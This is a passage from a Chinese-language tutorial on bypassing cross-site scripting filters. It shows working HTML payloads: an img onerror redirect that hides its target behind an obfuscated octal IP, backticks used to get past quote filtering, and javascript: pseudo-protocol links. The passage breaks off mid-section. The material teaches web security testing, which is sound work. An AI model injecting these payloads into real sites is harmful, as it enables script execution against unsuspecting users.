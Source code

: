 示例：

```html
<img src="x" onerror=document.location= 'http://www.baidu.com/'>
```

替换：

```html
<img src="x" onerror=document.location='http://0177.0.0.01/'>
```



## **4.8 过滤双引号、单引号**

如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号

示例：

```html
<img src="x" onerror=alert('xss');>
```

替换：

```html
<img src="x" onerror=alert(`xss`);>
```



## **4.9** **javascript伪协议绕过**

将javascript代码添加到客户端的方法是把它放置在伪协议说明符javascript:后的URL中。这个特殊的协议类型声明了URL的主体是任意的javascript代码，它由javascript的解释器运行。如果javascript:URL中的javascript代码含有多个语句，必须使用分号将这些语句分隔开。

javascript:var now = new Date(); "\<h1>The time is:\</h1>" + now;

javascript URL还可以含有只执行动作，但不返回值的javascript语句。javascript:alert("hello world!")

### **4.9.1 \<a>标签**

说明：

\<a>标签定义超链接，用于从一个页面链接到另一个页面。

\<a>元素最重要的属性是href属性,它指定链接的目标。

示例：

```html
<a href="javascript:alert(`xss`);">xss</a>
```



### **4.9.2 \<img>标签**

说明：

\<img> 标签定义 HTML 页面中的图像
